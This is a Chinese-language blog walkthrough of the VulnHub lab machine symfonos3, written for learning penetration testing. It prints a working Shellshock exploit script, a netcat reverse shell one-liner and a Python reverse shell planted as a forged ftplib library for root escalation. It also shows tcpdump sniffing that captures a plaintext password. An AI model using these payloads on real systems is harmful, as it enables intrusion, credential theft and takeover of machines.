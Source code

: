 ```yaml
---
layout: post
title:  "symfonos3"
description: walkthrough
category: vulnhub
---
```

# symfonos3

![image-20200627201400855]({{ site.url }}/assets/symfonos3.assets/image-20200627201400855.png)

![image-20200627201426195]({{ site.url }}/assets/symfonos3.assets/image-20200627201426195.png)

FTP禁止匿名访问

![image-20200627202426387]({{ site.url }}/assets/symfonos3.assets/image-20200627202426387.png)

![image-20200627202441732]({{ site.url }}/assets/symfonos3.assets/image-20200627202441732.png)

http目录

![image-20200627203728486]({{ site.url }}/assets/symfonos3.assets/image-20200627203728486.png)

![image-20200627203854067]({{ site.url }}/assets/symfonos3.assets/image-20200627203854067.png)

![image-20200627203752624]({{ site.url }}/assets/symfonos3.assets/image-20200627203752624.png)

![image-20200627203816063]({{ site.url }}/assets/symfonos3.assets/image-20200627203816063.png)

![image-20200627203919588]({{ site.url }}/assets/symfonos3.assets/image-20200627203919588.png)

看页面猜测underworld应该是/cgi-bin目录下的可执行文件，也就是应该存在shellshock，而主页源代码内的提示也提到underworld，先从这里入手。

shellshock，python shell脚本

```python
#!/usr/bin/python
# 使用示例
# python shellshock_shell.py 192.168.56.1
# $ id
# uid=48(apache) gid=48(apache) groups=48(apache)
# $ pwd
# /var/www/cgi-bin

import requests, sys
from base64 import b64encode

victim_ip = sys.argv[1]

while True:
    command = b64encode(raw_input('$ ').strip())
    headers = {
        'User-Agent': '() { :; }; echo \'Content-type: text/html\'; echo; export PATH=$PATH:/usr/bin:/bin:/sbin; echo \'%s\' | base64 -d | sh 2>&1' % command
    }

    print requests.get('http://192.168.43.226/cgi-bin/underworld', headers=headers).text.strip()		#注意修改这里为目标地址路径。

```

![image-20200627204842605]({{ site.url }}/assets/symfonos3.assets/image-20200627204842605.png)

shellshock 脚本所产生的shell，理论上是webshell为了更方便我们使用，在1337端口建立监听，并在shellshock中使用以下方式以获得更方便使用的shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.66 1337 >/tmp/f
```

![image-20200627205839456]({{ site.url }}/assets/symfonos3.assets/image-20200627205839456.png)

先查看用户

![image-20200627211901544]({{ site.url }}/assets/symfonos3.assets/image-20200627211901544.png)

使用脚本用来更进一步枚举

![image-20200627210809435]({{ site.url }}/assets/symfonos3.assets/image-20200627210809435.png)



![image-20200627211421722]({{ site.url }}/assets/symfonos3.assets/image-20200627211421722.png)

看来会使用密码登录proftpd

ftp是明文传输，我们可以尝试使用tcpdump进行浏览监测，从而尝试得到明文凭证

```bash
tcpdump -D		#查看可监控的设备

tcpdump -v -i lo port 21	#实时监测并屏幕输出，由于目标是本机登录ftp，所以应该监听lo环回. 虽然能更快的找到答案，但结束时需要ctrl c ，会断掉shell
tcpdump -w file.pcap -i lo		#输出到pcap文件，可以下载到kali使用wireshark分析。
```

![image-20200627212700226]({{ site.url }}/assets/symfonos3.assets/image-20200627212700226.png)

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

![image-20200627212928919]({{ site.url }}/assets/symfonos3.assets/image-20200627212928919.png)

![image-20200627213251359]({{ site.url }}/assets/symfonos3.assets/image-20200627213251359.png)

```bash
hades:PTpZTfU4vxgzvRBE
```



```bash
ssh hades@192.168.43.226
```

![image-20200627214321200]({{ site.url }}/assets/symfonos3.assets/image-20200627214321200.png)

我们之前已经通过枚举知道了root定时执行的一个脚本`/opt/ftpclient/ftpclient.py`，但是之前没权限查看，现在再次尝试

![image-20200627214845945]({{ site.url }}/assets/symfonos3.assets/image-20200627214845945.png)

看权限，显然无法对脚本做任何事情。（注。靶机是3.1版本已经修复了之前3.0版本直接可写的问题）

而脚本引用了ftplib

我们可以通过伪造lib提权。

检查lib文件夹权限

![image-20200627223633330]({{ site.url }}/assets/symfonos3.assets/image-20200627223633330.png)

![image-20200627223413591]({{ site.url }}/assets/symfonos3.assets/image-20200627223413591.png)

首先在kali本地伪造lib文件

```python
import socket,subprocess,os

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.43.66",1338))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```

工作目录建立http服务

```bash
python -m SimpleHTTPServer 8080
```

备份靶机原库文件，并将伪造文件上传至靶机

```bash
mv ftplib.py ftplib.py.bak
wget http://192.168.43.66:8080/ftplib.py
```

![image-20200627224045383]({{ site.url }}/assets/symfonos3.assets/image-20200627224045383.png)

在kali端口1338建立监听。root

![image-20200627224311226]({{ site.url }}/assets/symfonos3.assets/image-20200627224311226.png)